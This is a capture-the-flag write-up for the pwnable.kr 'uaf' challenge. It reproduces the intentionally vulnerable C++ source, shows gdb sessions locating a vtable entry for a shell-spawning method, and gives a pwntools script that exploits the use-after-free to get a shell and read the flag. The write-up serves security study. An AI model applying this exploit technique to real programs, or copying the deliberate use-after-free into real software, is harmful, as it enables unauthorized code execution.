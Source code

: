 ```yaml
---
title: Pwnable.kr Uaf
date: 2022-08-21T00:14:55+02:00
tags: ['cs/security']
aliases: ['']
---
```


As the challenge name indicates, this challenge has Use After Free Bug. It is
written in C++ and has the following source code:

```cpp
#include <fcntl.h>
#include <iostream> 
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;

class Human{
private:
	virtual void give_shell(){
		system("/bin/sh");
	}
protected:
	int age;
	string name;
public:
	virtual void introduce(){
		cout << "My name is " << name << endl;
		cout << "I am " << age << " years old" << endl;
	}
};

class Man: public Human{
public:
	Man(string name, int age){
		this->name = name;
		this->age = age;
        }
        virtual void introduce(){
		Human::introduce();
                cout << "I am a nice guy!" << endl;
        }
};

class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
};

int main(int argc, char* argv[]){
	Human* m = new Man("Jack", 25);
	Human* w = new Woman("Jill", 21);

	size_t len;
	char* data;
	unsigned int op;
	while(1){
		cout << "1. use\n2. after\n3. free\n";
		cin >> op;

		switch(op){
			case 1:
				m->introduce();
				w->introduce();
				break;
			case 2:
				len = atoi(argv[1]);
				data = new char[len];
				read(open(argv[2], O_RDONLY), data, len);
				cout << "your data is allocated" << endl;
				break;
			case 3:
				delete m;
				delete w;
				break;
			default:
				break;
		}
	}

	return 0;	
}
```

The bug is clear, we can free the variables w and m but still call methods from
them. Moreover, we can create new objects of arbitrary size with any content we
want. Taking a quick look at the assembly, we can see that `Man` and `Woman` are
both allocated bins of size *24* so we need to allocate two bins of that size.
Let's try filling a file with 24 As and running under gdb we get:

```
gef➤  r 24 test
Starting program: /home/yigit/Downloads/pwnable.kr/uaf/uaf 24 test
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400fcd <main+265>       mov    rax, QWORD PTR [rbp-0x38]
     0x400fd1 <main+269>       mov    rax, QWORD PTR [rax]
     0x400fd4 <main+272>       add    rax, 0x8
 →   0x400fd8 <main+276>       mov    rdx, QWORD PTR [rax]
     0x400fdb <main+279>       mov    rax, QWORD PTR [rbp-0x38]
     0x400fdf <main+283>       mov    rdi, rax
     0x400fe2 <main+286>       call   rdx
     0x400fe4 <main+288>       mov    rax, QWORD PTR [rbp-0x30]
     0x400fe8 <main+292>       mov    rax, QWORD PTR [rax]
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "uaf", stopped 0x400fd8 in main (), reason: SIGSEGV
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400fd8 → main()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/20xw $rax
0x4141414141414141:     Cannot access memory at address 0x4141414141414149
```

As we can see, the As are moved to rax. If we continue reading the disassembly,
we can see that the address at rax is dereferenced several times and eventually
used to call a function. This is because the classes have virtual functions
defined and hence [vtables](https://shaharmike.com/cpp/vtable-part1/) are used 
to call functions. When we inspect the memory during the normal execution of the
program, we see that the address pointed to by rax after running:

```
     0x400fcd <main+265>       mov    rax, QWORD PTR [rbp-0x38]
     0x400fd1 <main+269>       mov    rax, QWORD PTR [rax]
```

actually has the address of `Human::give_shell`. So, if we place that address-8
into the file we write to the allocated space, it should drop us a shell.

Here is some gdb commands to see what is going on in memory

```
 →   0x400fcd <main+265>       mov    rax, QWORD PTR [rbp-0x38]
     0x400fd1 <main+269>       mov    rax, QWORD PTR [rax]
     0x400fd4 <main+272>       add    rax, 0x8
     0x400fd8 <main+276>       mov    rdx, QWORD PTR [rax]
     0x400fdb <main+279>       mov    rax, QWORD PTR [rbp-0x38]
     0x400fdf <main+283>       mov    rdi, rax
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "uaf", stopped 0x400fcd in main (), reason: BREAKPOINT
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400fcd → main()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/2xg $rbp-0x38
0x7fffffffd088: 0x0000000000614ee0      0x0000000000614f30
gef➤  x/2xg 0x7fffffffd088
0x7fffffffd088: 0x0000000000614ee0      0x0000000000614f30
gef➤  x/2xg 0x0000000000614ee0
0x614ee0:       0x0000000000401570      0x0000000000000019
gef➤  x/2xg 0x0000000000401570
0x401570 <_ZTV3Man+16>: 0x000000000040117a      0x00000000004012d2
gef➤  x/5xi 0x000000000040117a
   0x40117a <_ZN5Human10give_shellEv>:  push   rbp
   0x40117b <_ZN5Human10give_shellEv+1>:        mov    rbp,rsp
   0x40117e <_ZN5Human10give_shellEv+4>:        sub    rsp,0x10
   0x401182 <_ZN5Human10give_shellEv+8>:        mov    QWORD PTR [rbp-0x8],rdi
   0x401186 <_ZN5Human10give_shellEv+12>:       mov    edi,0x4014a8
```

Therefore all we need to write is `0x0000000000401570 - 8` to the first bytes of
the file and pad the rest. Here is the exploit for that:

```py
from pwn import *

magic_addr = 0x401570 - 8 # 0x401570 points to the address of Human::give_shell
substracting 8 runs the function

payload = p32(magic_addr).ljust(24, b"\x00")

with open("payload", "wb") as f:
    f.write(payload)


p = process(["/home/uaf/uaf", "24", "payload"])

p.writeline("3") # Free objects
p.writeline("2") # Allocate bins of size 24 each
p.writeline("2")
p.writeline("1")
p.clean()
p.writeline("cat /home/uaf2/flag")
print(p.clean())
```
